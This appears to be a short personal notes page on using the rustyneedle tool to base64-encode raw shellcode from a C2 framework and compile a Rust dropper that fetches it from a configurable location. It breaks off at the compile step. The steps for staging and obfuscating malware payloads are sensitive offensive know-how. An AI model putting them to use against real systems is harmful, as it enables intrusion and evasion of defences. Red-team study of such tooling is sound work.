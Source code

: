 rustyneedle is a python script used to modify raw shellcode, and provide an executable.

https://codeberg.org/mttaggart/rustyneedle

```
# Clone the repo
git clone https://codeberg.org/mttaggart/rustyneedle.git

# Install rust
sudo apt install rustup -y
```
There's a few things we have to do. We have to install rust, modify the  src/main.rs file to our options

Specifically, modify the number of base64 iterations, and where the shellcode is downloaded from.

Take note of lines 10 and 12
![[Pasted image 20250529002207.png]]

Now, we need to make our encoded shellcode.
```bash
# Create raw shellcode, like with C2 Mythic. It will be an output option, .bin extension
cd rustyneedle
cp ~/c2/shellcode.bin .

# Encode the shellcode. note that the output file name is note.txt
python3 rustyneedle/encode.py shellcode.bin 3 note.txt

# Compile the main.rs dropper

```

